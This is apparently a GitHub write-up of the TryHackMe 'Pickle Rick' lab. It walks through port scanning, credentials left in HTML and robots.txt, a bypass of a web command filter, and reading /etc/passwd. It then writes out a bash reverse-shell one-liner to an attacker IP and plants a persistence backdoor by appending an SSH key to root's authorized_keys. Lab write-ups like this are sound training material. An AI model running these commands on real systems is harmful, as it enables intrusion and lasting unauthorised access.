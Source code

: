 # TryHackMe Pickle Rick Write-up

This is a walkthrough of my process completing the Pickle Rick room on TryHackMe.com. I will be using the attack box provided by TryHackMe in this case which utilizes the root user, however, this is not the best practice. It is always recommended you perform commands with the least privilege possible. Because I also managed to break the machine (*several times*) I have randomly assigned the target IP address.

---

# Planning and Reconnaissance
*In this room, we are roleplaying as Morty from the hit TV show, "Rick and Morty".* 

Defining our scope: Rick has turned into a pickle and needs 3 ingredients for a potion to turn back into a human. Unfortunately, these ingredients are hidden on his computer, and Pickle Rick has forgotten his password. Our task is to retrieve his password, access his data, and locate the 3 separate files containing the 3 ingredients. 

Pickle Rick provided us with the target machine's IP address, 10.10.200.141.

# Scanning and Enumeration
We begin with NMap. Using the command "`nmap -Pn -vvv 10.10.200.141`" stealthily scans the first 1000 most common ports that might be active on a machine. This scan reveals ports 22 (**SSH**) and 80 (**HTTP**) are open, and likely running these services. 

![image](https://github.com/user-attachments/assets/40b3f0f6-f221-4b2e-9318-2dd3b9c80a5f)



Attempting the command "`ssh rick@10.10.200.141`" reveals password login via SSH is disabled, requiring a key. 

![image](https://github.com/user-attachments/assets/be74ac94-6fc0-43d7-b8e0-e32dd57a5d16)



Let's check if there is a website associated with that IP address, "HTTP://10.10.200.141"...

![image](https://github.com/user-attachments/assets/b3b64b84-130f-4f51-9410-44f043c5565b)

There is!



Now let's quickly investigate the website's HTML using the shortcut "CTRL + SHFT + I".

![image](https://github.com/user-attachments/assets/5b40a88a-60b9-42ea-b37e-d6e130caa739)

In the body of the HTML, we can see Rick left his username, "R1ckRul3s". 

Reviewing the directories of the webpage, we can see there are some files. 

![image](https://github.com/user-attachments/assets/cd8034c7-379f-440b-8c80-8cab2175792f)


Visiting the "/assets*" directory reveals some more files and that the website is using Apache, however, only one in particular may have some relevance, that being a portal. 

![image](https://github.com/user-attachments/assets/629ee3f1-ac20-44e8-84e1-1569dc7aa318)


Attempting to access "HTTP://10.10.*.*/portal", unfortunately, doesn't reveal anything so let's dig deeper.

![image](https://github.com/user-attachments/assets/adfdddff-82b6-4ae3-8626-6fdc030df218)

Using GoBuster to fuzz "`gobuster dir -u http://10.10.200.141 -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt`" has revealed there are "/login.php" and "/robots.txt" pages, also indicating the webpage itself is using PHP.

![image](https://github.com/user-attachments/assets/9ed5f817-30f7-4ac6-964f-be8f0acd7f21)
![image](https://github.com/user-attachments/assets/8e8c7793-ba88-4f7a-aff6-9369ff0dae83)

Visiting the page "HTTP://10.10.200.141/robots.txt" reveals an odd string, "Wubbalubbadubdub", possibly the password.

![image](https://github.com/user-attachments/assets/466cd2ea-2b57-4e15-917c-c7aa4416f0e6)


# Gaining Access

Now, let's try some good ol' credential stuffing within the login portal...

![image](https://github.com/user-attachments/assets/d4c8f6fa-a960-43ba-a116-2cbff5c57099)

Success!

![image](https://github.com/user-attachments/assets/4d771344-0662-43f1-add9-35e9b331ef36)


Now that we have access, let's see what else we can find. 

Unfortunately, it seems these other tabs don't lead anywhere. 

![image](https://github.com/user-attachments/assets/3bfd5477-2ba7-42b1-899d-06cd92640840)

Let's check the HTML of this page.

![image](https://github.com/user-attachments/assets/769d5483-3fc3-45ee-98b9-f4098165087f)

This reveals an encoded string, "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==". Let's see if we can decode this using the command "`echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d`".

![image](https://github.com/user-attachments/assets/9743543c-8ff8-4af5-a7a4-6b0be367ef21)

Unfortunately, it seems this was just an elaborate rabbit hole set up by Rick.

Let's try the command field. Running "`uid`" reveals we are logged in as "www-data", and not Rick which might explain why we can't view the other pages.

![image](https://github.com/user-attachments/assets/e1ece65a-3b8d-43b8-a56a-236476666200)

Let's check our permissions with "`sudo -l`".

![image](https://github.com/user-attachments/assets/c8572de5-65dc-406b-a52f-b719f80fa08d)

It appears we have access to all commands via "`sudo`".

Let's check our current directory using "`pwd`" and what's in it using "ls -al" (Yes I use "`-al`").

![image](https://github.com/user-attachments/assets/65289e2b-3f7d-4c25-8750-710deeef034d)

![image](https://github.com/user-attachments/assets/b12ddf11-bf13-47e7-9e60-e55eb0b373c0)

There is the first ingredient, and a clue!

Unfortunately, it seems some commands like "`locate`", "`tail`", "`head`", and "`cat`" are prohibited even with "`sudo`", however, it seems this is a function of this webpage and not a lack of permissions.

![image](https://github.com/user-attachments/assets/13cb09ec-8907-4964-b9c4-fd6d0210f1af)


Let's see if we can bypass this by using some other commands. 

"`find`", "`less`", "`strings`", "`grep`", "`pwd`", "`ls`", "`uid`", and "`whoami`" work.

![image](https://github.com/user-attachments/assets/7a2a8260-3cb5-4add-9838-6bef308deeaf)

Success!


Visiting the specific directory in the website also works.

![image](https://github.com/user-attachments/assets/476fe758-7486-426e-9931-704c59536b7a)


Now that we have the first ingredient, let's see which other users might have access to this machine using "`sudo less /etc/passwd`" before moving on.

![image](https://github.com/user-attachments/assets/5de274be-72e3-4fc8-adac-cdea77d1e7df)


Now let's quickly find the last two ingredients using "`sudo ls ../../../*`".

Here we can see a file labeled "3rd.txt"

![image](https://github.com/user-attachments/assets/94e472c4-404a-442f-b84a-616172080a34)

![image](https://github.com/user-attachments/assets/e3734c5a-10d3-47f6-8022-1689526edcfa)


And a suspiciously named "rick" folder in the "home" directory.

![image](https://github.com/user-attachments/assets/2ad1fe8b-a427-42a0-a793-19921484972d)

![image](https://github.com/user-attachments/assets/e363cf6b-9f89-40ad-84f0-acad9e02da91)


And poof, just like that Rick is back to normal!


# Maintaining Access

However, because we are Evil Morty and we want to be able to access Rick's data in the future, let's see if we can create a [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). We start by listening with "netcat", "`nc -nlvp 8080`". 

![image](https://github.com/user-attachments/assets/48a91638-d2a3-497f-bfe1-e029b65c7ffa)

Running the command "`bash -i >& /dev/tcp/10.0.*.*/8080 0>&1`" within the command filed does not work, however, when encapsulating first with "`bash -c ''`", it does work, "`bash -c 'bash -i >& /dev/tcp/10.0.*.*/8080 0>&1'`". 

![image](https://github.com/user-attachments/assets/d937e39d-0540-4ebc-84b8-5e9073a0218f)

Let's see if we can become root...

![image](https://github.com/user-attachments/assets/a8fb6697-4e48-4b93-a4d8-4a97b0e08075)

Success!

With this, we can simply generate a RSA key pair using "`sshkeygen rsa`"; 
copy our public key;
and execute the following command within the shell, "`sudo echo key >> /root/.ssh/authorized_keys && sudo echo key >> /home/ubuntu/.ssh/authorized_keys`".

Now let's test SSH login.

![image](https://github.com/user-attachments/assets/d234846e-61b2-46d1-8629-99ce7f20192d)

![image](https://github.com/user-attachments/assets/817cb8f7-4043-46e8-810a-5631e40ed260)

Success!

# Reporting

While SSH password login was disabled, this should be a reminder for Rick that security through obscurity isn't really security.

For improved security, we recommend Rick begin storing his username and password in an offline encrypted password manager, like KeePassXC, instead of the HTML and robots.txt files of his site. Additionally, Rick should separate the users, permissions, and access within his machine, as well as, disable root login via SSH or disable SSH login all together.

#

# That's all folks!
